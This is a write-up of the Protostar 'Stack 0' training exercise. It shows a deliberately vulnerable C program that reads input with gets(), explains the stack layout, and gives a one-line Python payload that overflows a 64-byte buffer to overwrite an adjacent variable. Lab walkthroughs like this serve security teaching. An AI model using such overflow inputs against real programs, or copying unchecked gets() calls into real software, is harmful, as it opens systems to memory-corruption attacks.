 # Protostar Stack levels

## Stack 0
For this level we have to exploit the following C code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
    printf("you have changed the 'modified' variable\n");
  } else {
    printf("Try again?\n");
  }
}
```

As we can see here. The main function is calling `gets()`.
Running `man gets` we see it is a C library function which reads a line from standard input and stores the string inside the supplied buffer.
The man page also warns that gets does not check for the size of the string! 

The program starts by initialising the stack. The stack looks like this. 
```C
+==============+
|    Data      |
+--------------+
|   modified   |
+--------------+
|  buffer[64]  |
+--------------+
|    Data      |
+==============+
```
Since this a 32 bit system, modified will be 4 bytes (32 bits = 4 bytes). So we can type 1 to 4 characters to overwrite it.
The modified variable is right above the buffer, we need to write 64 characters to fill the buffer, then 1 character to change modified.

We can do this with a nice little python script: Piping the followning output into the program will overwrite the modified variable
```python
print 'A'*64 + 'BBBB'
```
